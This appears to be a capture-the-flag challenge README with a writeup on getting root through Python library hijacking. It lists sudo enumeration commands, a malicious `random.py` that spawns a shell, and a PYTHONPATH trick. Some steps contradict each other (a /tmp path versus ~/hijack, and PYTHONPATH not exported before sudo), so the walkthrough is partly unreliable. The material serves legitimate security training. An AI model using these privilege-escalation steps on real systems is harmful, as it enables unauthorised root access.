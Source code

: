 **Library Hijacking CTF Challenge**

**🏴 Challenge Overview**

Welcome to the **Library Hijacking CTF** challenge! This is a beginner-to-intermediate level machine-based CTF where the attacker needs to escalate privileges by exploiting a misconfigured Python script that runs with root privileges.

---

**🎯 Objective**

Your goal is to gain **root access** by exploiting a Python library hijacking vulnerability. You will connect to the machine using **SSH**, enumerate the system, and escalate privileges to obtain a root shell.

---

**🛠 Setup**

This challenge runs inside a **Docker container**. To deploy it, use the following commands:

```
docker pull e51am/ctf
docker run -dit --name library_hijacking_ctf -p 2222:22 e51am/ctf
```

Once the container is running, you can SSH into the machine using:

```
ssh ctfuser@localhost -p 2222
Password: password
```

---

**📌 Hints**

- Use `sudo -l` to check for **executable scripts with sudo privileges**.
- Find out which **libraries** the vulnerable script imports.
- Hijack the **imported library** to execute arbitrary code.

---

# Writeup

**🔍 Enumeration & Exploitation**

**1️⃣ Initial Access**

- The attacker discovers **credentials** for SSH login: **Username:** `ctfuser`**Password:** `password`
- Using the credentials, they connect via SSH:
    
    ```
    ssh ctfuser@localhost -p 2222
    ```
    

**2️⃣ Privilege Escalation - Enumerating sudo Permissions**

- Running the following command reveals a **sudo misconfiguration**:
    
    ```
    sudo -l
    ```
    or use linEnum.sh
  
- Output:
    
    ```
    (ALL) NOPASSWD: /usr/bin/python3 vulnerable_script.py
    ```
    
- This means `ctfuser` can execute `vulnerable_script.py` **as root** without a password.

**3️⃣ Find the vulnerable script:** use the following command to locate the script:

```bash
find / -name vulnerable_script.py 2>/dev/null
```

This means `vulnerable_script.py` is in `/opt/scripts`

**4️⃣ Analyzing the Vulnerable Script**

- Checking the contents of `/opt/scripts/vulnerable_script.py`:**Output:**
    
    ```
    cat /opt/scripts/vulnerable_script.py
    
    ```
    
    ```
    import random
    choices = ["Rock", "Paper", "Scissors"]
    computer = random.choice(choices)
    player = False
    cpu_score = 0
    player_score = 0
    while True:
      player = input("Rock, Paper or  Scissors?").capitalize()
      ## Conditions of Rock,Paper and Scissors
      if player == computer:
          print("Tie!")
      elif player == "Rock":
          if computer == "Paper":
              print("You lose!", computer, "covers", player)
              cpu_score+=1
          else:
              print("You win!", player, "smashes", computer)
              player_score+=1
      elif player == "Paper":
          if computer == "Scissors":
              print("You lose!", computer, "cut", player)
              cpu_score+=1
          else:
              print("You win!", player, "covers", computer)
              player_score+=1
      elif player == "Scissors":
          if computer == "Rock":
              print("You lose...", computer, "smashes", player)
              cpu_score+=1
          else:
              print("You win!", player, "cut", computer)
              player_score+=1
      elif player=='End':
          print("Final Scores:")
          print(f"CPU:{cpu_score}")
          print(f"Plaer:{player_score}")
          break
    ```
    
- The script imports **random**, which we can **hijack**!

5️⃣ **Exploiting Library Hijacking**

- We create a **malicious version** of `random.py` in `/tmp`:
    
    ```
    mkdir ~/hijack
    echo 'import os; os.system("/bin/bash")' > ~/hijack/random.py
    
    ```
    
- Set the `PYTHONPATH` to prioritize our malicious library:
    
    ```
    PYTHONPATH=/home/ctfuser/hijack/
    sudo /usr/bin/python3 vulnerable_script.py
    
    ```
    
- This spawns a **root shell**! 🎉

---

**🏆 Capture the Flag**

Once you gain root access, find the flag inside:

```
cat /root/flag.txt
```

---

**🚀 Conclusion**

This challenge teaches **privilege escalation via Python library hijacking**, a common misconfiguration found in real-world scenarios. Happy hacking! 🏴‍☠️

---

**📜 Disclaimer**

This challenge is for **educational purposes only**. Do not attempt these techniques on unauthorized systems!
